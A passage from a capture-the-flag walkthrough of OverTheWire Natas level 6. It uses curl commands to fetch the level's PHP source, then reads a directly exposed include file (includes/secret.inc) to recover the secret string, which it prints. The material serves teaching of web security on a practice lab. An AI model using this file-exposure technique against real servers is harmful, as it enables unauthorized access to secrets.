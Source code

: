 The goal of this level is to retrieve the password for the next level, **natas7**, by interacting with a form on the page and examining the source code.

### Initial Observation

Accessing the level with basic authentication:

```bash
curl -i -u natas6:natas6password http://natas6.natas.labs.overthewire.org/
```

Returns a page containing a simple form:

```html
<form method=post> Input secret: <input name=secret><br> <input type=submit name=submit> </form>
```

Submissions are expected via POST with a field named `secret`.

## Viewing Source Code

The level provides a link to the source code:

```bash
curl -i -u natas6:natas6password http://natas6.natas.labs.overthewire.org/index-source.html
```

Inspecting the source shows:

```html
<?php include "includes/secret.inc";
if(array_key_exists("submit", $_POST)) { 
if($secret == $_POST['secret']) { print "Access granted. 
    The password for natas7 is <censored>"; }
else { print "Wrong secret"; } } ?>
```

### Key Insight

- The secret is stored in a file: `includes/secret.inc`.
- The server includes this file in the code.
- This file is **directly accessible**, 
even though normally PHP includes are not meant to be exposed.

## Retrieving the Secret

Fetching the secret file:

```bash
curl -i -u natas6:natas6password http://natas6.natas.labs.overthewire.org/includes/secret.inc
```

Reveals:

```bash
<? $secret = "FOEIUWGHFEEUHOFUOIU"; ?>
```
